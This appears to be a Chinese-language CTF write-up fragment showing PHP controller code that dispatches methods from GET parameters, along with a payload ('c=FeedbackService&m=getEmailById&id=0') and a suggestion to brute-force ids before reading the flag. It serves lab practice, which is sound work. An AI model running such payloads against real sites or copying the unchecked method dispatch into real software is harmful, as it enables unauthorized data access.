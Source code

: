 ```php
if ($className && $methodName) {
    if ($className === 'NewsService' && method_exists($NewsService, $methodName))
    {
        echo $NewsService->$methodName($id);
    }
    elseif ($className === 'FeedbackService' && method_exists($FeedbackService, $methodName))
    {
        echo $FeedbackService->$methodName($id);
    } else {
        echo "无效的类或方法";
    }
} else {
    echo "缺少类或方法参数";
}


?>

```

在controller.php里面可以通调用FeedbackService.php和NewsService.php中的方法

```
$className = isset($_GET['c']) ? $_GET['c'] : null;
$methodName = isset($_GET['m']) ? $_GET['m'] : null;
$id = isset($_GET['id']) ? $_GET['id'] : null;
```

通过get传参即可调用getEmailById方法

payload:

```
c=FeedbackService&m=getEmailById&id=0
```

这个id我们其实并不清楚，可以爆破或者一个个试试，反正不多

![image-20241221172130196](../assets/image-20241221172130196.png)

命令成功执行，接下来只需要读flag就行了



